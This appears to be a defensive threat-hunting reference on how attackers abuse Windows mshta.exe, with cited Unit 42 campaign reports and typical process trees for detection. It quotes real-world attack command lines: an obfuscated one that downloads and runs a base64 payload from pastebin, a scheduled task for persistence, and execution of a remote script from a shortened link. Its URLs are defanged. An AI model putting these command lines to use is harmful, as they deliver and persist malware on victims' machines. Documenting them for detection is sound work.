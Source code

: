 ## Common CommandLine

```batch
mshta vbscript:Execute("[Commands/Script]")

mshta vbscript:Close(Execute("[Commands/Script]"))

mshta javascript:[Commands/Script]

mshta [file.hta]

mshta.exe "[Inline HTA Script]"

mshta.exe [hxxp://link.to.malware]
```

## Threat Actor Ops (TAOps)

- [Using ``mshta.exe`` to run PowerShell and download payload from Pastebin](https://unit42.paloaltonetworks.com/aggah-campaign-bit-ly-blogspot-and-pastebin-used-for-c2-in-large-scale-campaign/)

```powershell
mshta.exe vbscript:CreateObject(""Wscript.Shell"").Run(""powershell.exe -noexit -command [Reflection.Assembly]::Load([System.Convert]::FromBase64String((New-Object Net.WebClient).DownloadString(\'h\'+\'x\'+\'x\'+\'p\'+\'s:\'+\'//p\'+\'a\'+\'s\'+\'t\'+\'e\'+\'b\'+\'i\'+\'n\'+\'.\'+\'c\'+\'o\'+\'m\'+\'/\'+\'r\'+\'a\'+\'w\'+\'/\'+\'XXXXXXXX\'))).EntryPoint.Invoke($N,$N)"",0,true)(window.close)
```

- [Creating a Scheduled Task that runs ``mshta.exe``](https://unit42.paloaltonetworks.com/aggah-campaign-bit-ly-blogspot-and-pastebin-used-for-c2-in-large-scale-campaign/)

```batch
schtasks /create /sc MINUTE /mo 100 /tn eScan Backup /tr ""mshta vbscript:CreateObject(""Wscript.Shell"").Run(""mshta.exe hxxps://pastebin[.]com/raw/XXXXXXX"",0,true)(window.close)"" /F '
```

- [Execute remotely-hosted script using ``mshta.exe``](https://unit42.paloaltonetworks.com/operation-comando-or-how-to-run-a-cheap-and-effective-credit-card-business/)

```batch
mshta hxxps://bit[.]ly/XXXXX
```

## Common Process Trees

- Mshta launched from CMD or PowerShell

```yaml
.
└── cmd.exe
    └── mshta.exe

.
└── powershell.exe
    └── mshta.exe
```
